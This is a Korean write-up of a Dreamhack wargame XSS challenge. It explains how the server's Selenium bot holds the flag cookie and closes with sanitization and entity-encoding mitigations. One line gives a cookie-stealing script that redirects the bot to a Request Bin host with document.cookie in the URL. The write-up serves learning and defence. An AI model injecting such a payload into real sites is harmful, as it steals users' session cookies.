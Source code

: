 **참고로, 여기서 임의 이용자는 코드를 수행한 자신이 아닌 서버의 봇이기 때문에 `FLAG = open("./flag.txt", "r").read()`로 플래그를 읽어서 쿠키에 세팅하게 된다. (`XSS`의 상황과, 자신의 쿠키에는 플래그 정보가 없다는 것을 잘 생각하자.)**

`/vuln` 엔드 포인트에서 스크립트 코드가 실행되서 `location.href`가 `/memo`로 바뀌게 되면, 셀레니움에 의해 서버에서 `/memo`에 방문하는 시뮬레이션을 발생시켜, 플래그가 존재하는 쿠키가 `memo_text`에 추가되게 된다.

플래그를 사용자도 볼 수 있고, `hello`가 게속 누적되는 이유는 `memo`의 텍스트가 계속 누적되는 이유는 `memo` 파라미터를 저장하는 `memo_text`가 전역 변수로 계속 더해지기 때문이다.

<img width="976" alt="image" src="https://github.com/user-attachments/assets/eceb0fca-6060-4fd3-8965-8aee680d87ea">

### 잘못했던 생각

처음에 잘못했던 생각이, 바로 `/flag` 에서 `<script>document.cookie</script>` 를 해주면 인덱스 페이지를 통해 `/vuln`에 접근할 때, 바로 `document.cookie`가 출력되는게 아닌가라는 생각을 했는데,

`read_url`을 통해서 `/vuln`에 접근하는 것은 폼을 입력한 현재 클라이언트가 아니라, `XSS` 공격에서 임의 이용자 역할을 하는 셀레니움이기 때문에 사용자에게는 아무 영향이 없다.

따라서, 사용자가 인덱스 페이지에서 `/vuln`에 접근해서 할 수 있는 것은 `alert(1);`코드를 수행하는 것 뿐이며, `URL`을 통해 `http://host3.dreamhack.games:21913/vuln?param=<script>document.cookie<script>`로 접속해도, 이 쿠키는 세팅되지 않은 현재 클라이언트의 쿠키이기 때문에 아무 값도 출력되지 않는다.

따라서, 셀리니움을 통해서 서버 측에서 `/vuln`에 접근하여, 폼으로 전달한 스크립트 코드를 실행하게 하는 시뮬레이션을 발생시켜서 `/memo`로 후 `memo_text`에 플래그를 더해서 현재 클라이언트에게도 보이도록 해야한다.

## 웹 서버 사용

외부에서 접근 가능한 웹 서버를 통해 탈취한 쿠키를 확인할 수 있다. 외부에서 접근 가능한 웹 서버가 없다면 [드림핵 툴즈 서비스](https://tools.dreamhack.games/)의 `Reqeust Bin` 기능을 이용하여 대체할 수 있다.

`Request Bin` 기능은 이용자의 접속 기록을 저장하기 때문에 웹 서버를 통해 탈취한 쿠키를 확인할 수 있다.

`Request Bin` 버튼을 클릭하면 랜덤한 `URL`이 생성되며, 해당 `URL`에 접속한 기록을 저장한다.

`/flag`에서 아래와 같은 코드를 입력하면, 아래 이미지와 같이 접속 기록에 포함된 플래그를 획득할 수 있다.

`<script>location.href = "http://RANDOMHOST.request.dreamhack.games/?memo=" + document.cookie;</script>`

이 스크립트를 입력해주면 셀레니움을 통해 서버가 해당 주소에 접속하여 `document.cookie` 값을 파라미터로 보내게 된다.

**사실 이 때는 셀레니움을 통해 서버가 워게임 UR의 `/memo`에 접근하여 쿠키를 `memo_text`에 더해주는 것이 아니라, 서버의 `document.cookie`를 `Request Bin`으로 생성한 랜덤한 주소에 접속하여 파라미터로 전달하는 것이기 떄문에,**

**`?memo =` 가 아니라 어떤 값으로도 써도 파라미터만 전달되면 상관없긴 하다. (`?asd =` 도 가능)**

<img width="1039" alt="image" src="https://github.com/user-attachments/assets/2b9f9718-b288-47b4-adc7-623e83363e38">

## 정리

이번 워게임을 통해 서버에서 이용자의 입력 값을 별다른 검증 없이 페이지에 출력할 경우 발생할 수 있는 `XSS` 취약점을 확인해볼 수 있었다.

`XSS` 공격은 주로 이용자의 입력 값이 출력되는 페이지에서 발생하며, 해당 공격을 통해 다른 이용자의 브라우저에 저장된 쿠키 및 세션 정보를 탈취할 수 있다.

이러한 취약점은 악성 태그를 필터링하는 `HTML Sanitization`을 사용하거나 `render_templete` 함수에서 사용한 방식처럼 `HTML entity` 코드로 입력 값을 치환하는 방법으로 해결할 수 있다.

